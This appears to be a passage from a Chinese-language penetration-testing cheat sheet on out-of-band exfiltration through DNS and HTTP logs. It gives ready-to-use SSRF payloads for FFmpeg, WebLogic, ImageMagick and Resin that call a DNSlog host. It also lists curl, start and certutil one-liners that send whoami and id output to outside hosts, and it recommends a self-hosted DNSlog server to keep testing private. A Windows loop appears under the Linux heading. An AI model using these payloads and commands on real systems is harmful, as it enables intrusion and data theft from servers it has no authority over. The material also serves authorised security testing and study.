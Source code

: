 #### FFMpeg
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://ip.port.b182oj.ceye.io
#EXT-X-ENDLIST
```

#### Weblogic
```
xxoo.com/uddiexplorer/SearchPublicRegistries.jsp?operator=http://ip.port.b182oj.ceye.io/test&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Businesslocation&btnSubmit=Search
```

#### ImageMagick
```
push graphic-context
viewbox 0 0 640 480
fill 'url(http://ip.port.b182oj.ceye.io)'
pop graphic-context
```

#### Resin
```
xxoo.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=http://ip.port.b182oj.ceye.io/ssrf
```

## DNSlog平台的搭建
&emsp;在我们实际的渗透中，我们不想使用一些别人家搭建的DNSlog平台，比较还是有可能被记录在别人的服务器上面的，这就涉及到保密的问题，那么就需要有自己可控的DNSlog平台。

&emsp;这里推荐BugScanTeam的 https://github.com/BugScanTeam/DNSLog ，该项目主页是有搭建教程的，按自己的需求搭建。


## 扩展：HTTP log
&emsp;除开利用DNS的log，在可以执行系统命令的情况还可以利用HTTP的log，就是通过中间件的日志来获取结果。

## Linux
`for /F "delims=\" %i in ('whoami') do curl http://www.dark5.net/%i`

如果碰到内容有空格（换行符等），就会截断，只输出前面的，这时候可以利用编码来输出，但有输出字符数最大限制；
```
curl http://xxx.dnslog.link/$(id|base64)
curl http://xxx.dnslog.link/`id|base64`
```

## windows 
`for /F %x in ('whoami') do start https://www.dark5.net/%x` #启动浏览器访问

`for /F %x in ('whoami') do certutil.exe -urlcache -split -f https://www.dark5.net/%x` #内置命令行工具访问
